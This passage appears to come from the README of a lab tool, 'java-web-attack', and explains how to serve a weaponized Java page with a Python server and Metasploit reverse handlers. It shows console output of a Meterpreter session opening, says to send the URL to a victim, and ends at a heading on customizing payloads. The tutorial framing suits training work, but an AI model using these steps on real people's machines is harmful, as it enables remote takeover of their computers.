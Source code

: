 Setting up the server to deliver the weaponized page, payloads, and handlers requires an HTTP server and Metasploit. You can use any HTTP server, such as Apache. `weaponize.py` generates a **listeners.rc** file in the **output** directory that will set up the payload listeners.

`serve.sh` automates these steps for you. It will stop the Apache web server if it is running, start up a lightweight Python HTTP server, and run `msfconsole` with the generated resource script to set up the payload listeners. It will take a minute or two to completely set up the payload listeners so please be patient.

Note: Since this shuts down Apache during the attack, you will be unable to access these intructions through the normal method. Please leave this page open without refreshing until you have completed the exercise and restarted Apache.

`/opt/java-web-attack#` **`./serve.sh`**

        Shutting down Apache...
         * Stopping web server apache2 *
        Starting python web server...
        Now starting payload listeners. Please be patient.
        [*] Starting the Metasploit Framework console...
        <<<snip>>>
        [*] Started reverse handler on 172.16.215.138:3000
        <<<snip>>>
        [*] Started reverse handler on 172.16.215.138:3001
        <<<snip>>>
        [*] Started reverse handler on 172.16.215.138:3002
        <<<snip>>>
        You may now surf to http://172.16.215.138/
        msf exploit(handler) >

Once you see the text **You may now surf to** you are all set. Visit the URL provided in your browser or send it to your victim. When you do, accept the Java prompts and you should see feeback in your console window saying that you have a new session.

        [*] Sending stage (770048 bytes) to 172.16.215.137
        [*] Meterpreter session 1 opened (172.16.215.138:3000 -> 172.16.215.137:1104)

You may interact with your session by using the session number shown in your own output. In this case, it is session number 1.

**`sessions -i 1`**

        [*] Starting interaction with 1...
        meterpreter >

Example 4: Stopping the Attack Server
-------------------------------------

To stop the Metasploit listeners and shut down the Python web server, type `exit` into the Metasploit console window. You may have to type it more than once if you were also in a meterpreter session.

Finally, you will need to restart Apache.

`/opt/java-web-attack#` **`sudo service apache2 start`**

Note: If this does not work, rebooting your machine will.

Example 5: Customizing the Payloads
-----------------------------------

